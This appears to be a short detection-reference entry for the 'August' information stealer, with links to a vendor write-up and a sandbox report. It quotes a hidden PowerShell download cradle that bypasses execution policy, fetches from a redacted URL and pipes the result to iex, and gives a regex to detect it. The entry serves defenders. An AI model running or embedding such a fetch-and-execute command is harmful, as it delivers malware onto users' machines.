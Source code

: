 ## August


#### Commands
---

* Powershell.exe

1.

```
-w hidden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://[URL].asp') | iex
```


#### Regular Expressions
---

``
^(?=.*\bbypass\b)(?=.*\bNet\.WebClient\b)(?=.*\bDownloadFile\b)(?=.*\biex\b).*$
``

#### Resources
---

Technical write-ups:
* https://www.proofpoint.com/us/threat-insight/post/august-in-december-new-information-stealer-hits-the-scene

Sandbox reports:
* https://www.hybrid-analysis.com/sample/c432cc99b390b5edbab400dcc322f7872d3176c08869c8e587918753c00e5d4e?environmentId=100

Notes:



 
